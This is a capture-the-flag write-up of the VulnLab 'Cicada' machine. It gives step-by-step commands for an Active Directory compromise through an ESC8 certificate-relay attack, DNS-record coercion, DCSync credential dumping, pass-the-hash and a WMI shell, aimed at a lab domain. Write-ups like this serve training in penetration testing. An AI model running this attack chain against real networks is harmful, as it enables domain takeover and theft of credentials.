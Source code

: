 ```yaml
---
title: VulnLab -- Cicada Writeup
date: 2025-03-30 00:00:00 +0800
categories: [windows machine]
tags: [Active Directory,ESC8,ADCS]
image:
    path: ../images/Cicada-banner.png
---
```

# Cicada

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Cicada** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.

![image.png](../images/cicada-banner.png)

Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 389,9389,53,445,49667,49671,59847,3269,139,80,2049,5985,49678,49664,593,59873,59811,464 --min-rate=1000 10.10.88.205
```

![image.png](../images/cicada.png)

Now let’s enumerate the NFS

```bash
showmount -e 10.10.88.205
```

![image.png](../images/cicada%201.png)

> Notice that we have a profiles mount
> 

Now let’s go and mount it

```bash
sudo mount -t nfs 10.10.88.205:/profiles Mount
```

![image.png](../images/cicada%202.png)

now let’s see what is in the mount directory

```bash
tree .
```

![image.png](../images/cicada%203.png)

Now let’s open the marketing cicada from the user directory

```bash
eog marketing.png
```

![image.png](../images/cicada%204.png)

> Notice that the cicada contains a password
username: Rosie.Powell
password: Cicada123
> 

Now let’s go and try it

```bash
nxc smb bruno.vl -u 'Rosie.Powell' -p 'Cicada123'
```

![image.png](../images/cicada%205.png)

> Notice that it say STATUS_NOT_SUPPORTED which mean that the NTLM authentication is disabled
> 

So let’s try again with the Kerberos auth 

```bash
nxc smb cicada.vl -u 'Rosie.Powell' -p 'Cicada123' -k
```

![image.png](../images/cicada%206.png)

and we are authenticated

So let’s go and enumerate the certificate service

First let’s get a TGT for the user Rosie

```bash
impacket-getTGT cicada.vl/Rosie.Powell:'Cicada123' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%207.png)

Now let’s export the TGT

```bash
export KRB5CCNAME=Rosie.Powell.ccache
```

![image.png](../images/cicada%208.png)

Now let’s find the CA Templates

```bash
certipy-ad find -k -no-pass -debug -dc-ip dc-jpq225.cicada.vl -ns 10.10.88.205
```

![image.png](../images/cicada%209.png)

Now let’s go and get the output

```bash
cat 20250330050004_Certipy.txt | grep -i ESC8 -b50
```

![image.png](../images/cicada%2010.png)

> Notice that there is a template that is vulnerable to ESC8 which will help us relaying the Web remotely
> 

Now let’s start KRB Relay

```bash
python3 krbrelayx.py -t http://dc-jpq225.cicada.vl/certsrv/certfnsh.asp -smb2support --adcs --template DomainController -debug
```

![image.png](../images/cicada%2011.png)

Now let’s create a domain joined machine

```bash
bloodyAD -u 'rosie.powell' -p 'Cicada123' --host dc-jpq225.cicada.vl -k -d 'cicada.vl' add dnsRecord 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' 10.8.5.233
```

![image.png](../images/cicada%2012.png)

Now let’s relay

```bash
python3 dfscoerce.py -k -no-pass -dc-ip dc-jpq225.cicada.vl 'dc-jpq2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA' dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2013.png)

Now let’s go back and check if we go anything

![image.png](../images/cicada%2014.png)

And we did so let’s go and try to authenticate to get the machine hash

```bash
certipy-ad auth -pfx 'unknown3732$.pfx' -dc-ip 10.10.88.205
```

![image.png](../images/cicada%2015.png)

Now let’s go to perform DCSync and retrieve all the hashes

First let’s get a TGT for the Machine Account

```bash
impacket-getTGT cicada.vl/'dc-jpq225$':'' -dc-ip 10.10.88.205 -hashes :9323a945f6606ac6b44263f00218cfab
```

![image.png](../images/cicada%2016.png)

Now let’s export it

```bash
export KRB5CCNAME=dc-jpq225$.ccache
```

![image.png](../images/cicada%2017.png)

Now let’s DCSync

```bash
impacket-secretsdump -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2018.png)

Now let’s request a ticket for the administrator

```bash
impacket-getTGT cicada.vl/administrator:'' -dc-ip 10.10.88.205 -hashes :85a0da53871a9d56b6cd05deda3a5e87
```

![image.png](../images/cicada%2019.png)

now let’s export his ticket

```bash
export KRB5CCNAME=administrator.ccache
```

![image.png](../images/cicada%2020.png)

Now let’s try to wmi to the machine

```bash
impacket-wmiexec -k -no-pass dc-jpq225.cicada.vl
```

![image.png](../images/cicada%2021.png)

Now let’s go to the administrator desktop and see the root flag

```bash
cd c:\users\administrator\desktop
```

![image.png](../images/cicada%2022.png)

Amazing we got the root flag 🥳

![image.png](../images/cicada%2023.png)

That’s it for the **Cicada** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX